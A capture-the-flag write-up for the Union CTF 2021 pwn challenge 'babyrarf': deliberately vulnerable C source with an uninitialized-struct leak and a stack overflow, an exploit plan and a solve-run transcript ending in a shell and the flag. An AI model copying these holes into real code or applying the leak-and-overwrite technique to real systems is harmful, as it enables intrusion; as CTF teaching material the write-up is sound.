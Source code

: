 # babyrarf

**Category**: Pwn \
**Points**: 100 (37 solves) \
**Author**: p4wn

## Challenge

Kill the rarf boss, get the flag.

`nc 35.204.144.114 1337`

## Solution

```
$ checksec babyrarf
[*] '/home/plushie/Programs/ctf/2021/union_ctf/babyrarf/babyrarf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Here's the source:
```c
...

typedef struct character {
    char name[10];
    int health;
} character;

...

// 🤔
void get_shell(){
    execve("/bin/sh", NULL, NULL);
}

attack choose_attack(){
    attack a;
    int id;
    puts("Choose an attack:\n");
    puts("1. Knife\n");
    puts("2. A bigger knife\n");
    puts("3. Her Majesty's knife\n");
    puts("4. A cr0wn\n");
    id = read_int();
    if (id == 1){
        a.id = 1;
        a.dmg = 10;
    }
    else if (id == 2){
        a.id = 2;
        a.dmg = 20;
    }
    else if (id == 3){
        a.id = 3;
        a.dmg = 30;
    }
    else if (id == 4){
        if (score == 0){
            // If we hit this branch, `a` is never initialized. We can use this
            // to leak some addresses.
            puts("l0zers don't get cr0wns\n");
        }
        else{
            a.id = 4;
            a.dmg = 40;
        }
    }
    else{
        puts("Please select a valid attack next time\n");
        a.id = 0;
        a.dmg = 0;
    }
    return a;
}

int main(){
    character player = { .health = 100};
    character boss = { .health = 100, .name = "boss"};
    attack a;
    int dmg;

    ...

    score = 10;
    while (score < 100){
        a = choose_attack();
        ...
        if (player.health > boss.health){
            puts("You won!\n");
            score += 1;
        }
        else{
            puts("You lost!\n");
            score -= 1;
        }
        ...
    }

    puts("Congratulations! You may now declare yourself the winner:\n");

    // Buffer is only 10 bytes, can overwrite return addr
    fgets(player.name, 48, stdin);
    return 0;
}
```

Exploit:
1. Get to zero points and attack with `4. A cr0wn`
2. This triggers `l0zers don't get cr0wns` and leaks two addresses
3. Use the leaked addresses to get address `get_shell`
4. Finish the game and reach `Congratulations! You may now declare yourself the winner:`
5. Overwrite return address with `get_shell`
6. Profit

```
$ python3 solve.py
[+] Opening connection to 35.204.144.114 on port 1337: Done
[*] '/home/plushie/Programs/ctf/2021/union_ctf/babyrarf/babyrarf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x560c30c774d0
0x7ffdee7ff7f0
---
[*] Switching to interactive mode
:

$ cat /home/babyrarf/flag.txt
union{baby_rarf_d0o_d00_do0_doo_do0_d0o}
$
```
